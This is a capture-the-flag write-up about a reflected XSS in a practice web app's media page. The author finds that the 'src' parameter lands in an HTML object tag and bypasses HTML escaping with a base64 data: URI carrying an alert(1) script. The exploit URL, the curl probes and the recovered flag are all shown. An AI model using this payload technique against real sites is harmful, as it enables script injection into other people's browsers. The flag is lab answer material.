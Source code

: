 # http://192.168.99.100/index.php?page=media&src=nsa

this flag wasn't as obvious as the previous ones

changing the `src` parameter to anything other than _**nsa**_ generates wrong answer

```sh
e1z2r10p4% curl -s '192.168.99.100/index.php?page=media&src=theQuickBrownFoxJumpsOverTheLazyDog' | grep 'Quick'
<table style="margin-top:-68px;"><center><h2 style="margin-top:50px;"></h2><br/><img src="images/WrongAnswer.gif" alt=""></center> <tr style="background-color:transparent;border:none;"><td style="vertical-align:middle;"><object data="theQuickBrownFoxJumpsOverTheLazyDog"></object></td></tr></table>				</div>
e1z2r10p4% 
e1z2r10p4% curl -s '192.168.99.100/index.php?page=media&src=nsa' | grep 'object'                               
<table style="margin-top:-68px;"><tr style="background-color:transparent;border:none;"><td align=center style="vertical-align:middle;font-size:1.5em;">File: nsa_prism.jpg</td></tr><tr style="background-color:transparent;border:none;"><td style="vertical-align:middle;"><object data="http://192.168.99.100/images/nsa_prism.jpg"></object></td></tr></table>		</div>
e1z2r10p4% 
```

we notice that the `src` parameter value becomes the `data` attribute value of an html `<object>`

if we set `src` to a file name of an image that exists on the server,

the page will display the image, for example `http://192.168.99.100/?page=media&src=/images/05_Lounge.jpg`

how can we exploit that?

setting `src` to javascript directly doesn't work,

for this url:

`http://192.168.99.100/?page=media&src=<script>alert(1)</script>`

the page source is:

`<object data="&lt;script&gt;alert(1)&lt;/script&gt;"></object>`

so the page must be using either `htmlspecialchars()` or `htmlentities()`

how can we get around that?

it turns out we can use **base64** to encode our javascript alert

as per wikipedia article, the format is:

`https://en.wikipedia.org/wiki/Data_URI_scheme`

**`data:[<media type>][;base64],<data>`**

let's try it ...

```sh
e1z2r10p4% echo -n '<script>alert(1)</script>' | base64           
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

`data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`

full url:

`http://192.168.99.100/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`

and when we put that in the browser, we get the flag:

`The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d`

#

this one was tricky but i've learned some new things: the data uri scheme, mime types and xss
